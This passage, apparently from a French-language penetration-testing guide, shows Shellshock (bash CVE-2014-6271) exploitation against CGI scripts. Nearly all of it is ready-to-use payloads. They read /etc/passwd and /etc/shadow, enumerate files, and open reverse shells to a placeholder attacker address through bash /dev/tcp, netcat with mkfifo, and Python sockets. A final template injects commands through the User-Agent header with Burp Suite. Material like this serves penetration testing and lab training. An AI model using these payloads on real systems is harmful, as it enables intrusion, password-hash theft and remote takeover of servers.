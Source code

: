 ```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
() { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow'
```

#### Navigation dans le système de fichiers
```bash
# Répertoire courant
() { :; }; echo; echo; /bin/bash -c 'pwd'

# Contenu du répertoire
() { :; }; echo; echo; /bin/bash -c 'ls -la'

# Recherche de fichiers intéressants
() { :; }; echo; echo; /bin/bash -c 'find /var/www -name "*.php" | head -10'
() { :; }; echo; echo; /bin/bash -c 'find / -name "*config*" 2>/dev/null | head -10'
```

### Reverse Shell

#### Bash reverse shell
```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/<port> 0>&1'
```

#### Netcat reverse shell
```bash
() { :; }; echo; echo; /bin/bash -c 'nc -e /bin/bash <your_ip> <port>'
# Alternative si -e n'est pas supporté
() { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <port> >/tmp/f'
```

#### Python reverse shell
```bash
() { :; }; echo; echo; /bin/bash -c 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<your_ip>\",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"'
```

---

## Phase 4: Techniques d'exploitation avancées

### Avec Burp Suite

**Configuration:**
1. Configurer FoxyProxy pour rediriger vers Burp (127.0.0.1:8080)
2. Activer l'interception dans Burp Suite
3. Naviguer vers le script CGI cible
4. Intercepter la requête

**Modification du User-Agent dans Burp:**
```
User-Agent: () { :; }; echo; echo; /bin/bash -c 'YOUR_COMMAND_HERE'
```
